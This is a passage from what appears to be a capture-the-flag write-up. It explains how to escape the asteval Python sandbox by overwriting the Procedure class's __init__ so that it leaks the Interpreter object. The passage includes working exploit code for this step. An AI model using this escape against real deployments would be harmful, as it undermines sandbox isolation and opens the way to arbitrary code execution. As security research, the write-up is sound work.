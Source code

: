 ```python
        if text is None:
            self.__text__ = f'{self.__signature__()}\n' + ast.unparse(self.__body__)
        self.__ininit__ = False

    def __setattr__(self, attr, val):
        if not getattr(self, '__ininit__', True):
            self.__raise_exc__(None, exc=TypeError,
                               msg="procedure is read-only")
        self.__dict__[attr] = val
```
As you can see, there is a mechanism here via the `__ininit__` variable which prevents us from assigning to attributes of `Procedure` instances after they have gone through `__init__`. (as an interesting aside not further relevant for this challenge, notice the default value in `getattr(self, '__ininit__', True)`)

This mechanism prevents us from setting attributes on instances of `Procedure`, but you may know that class attributes for classes that are defined using python source code are also writeable.
The `__setattr__` defined for `Procedure` is an instance-level function, not a class-level function, which means that there are **no restrictions** on setting attributes on the class object of `Procedure` as opposed to its instances.

```python
# Get Procedure class object
def f():
    pass
p = t(f)
```

In the `__init__` of `Procedure`, the argument `interp` is a reference to the `asteval` `Interpreter` object. It's used for evaluating function calls, such that the `Interpreter` evaluation control flow can go via `__call__`. I expect that this was done such that user defined functions within the sandbox can be called in the same way as regular python functions that are exposed as names within the sandbox.

This design choice allows us to leak the `Interpreter` object.

We can override the class level `__init__` of `Procedure` in a way where we exfiltrate the `interp` argument:
```python
# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

We now have a reference to the `Interpreter`.
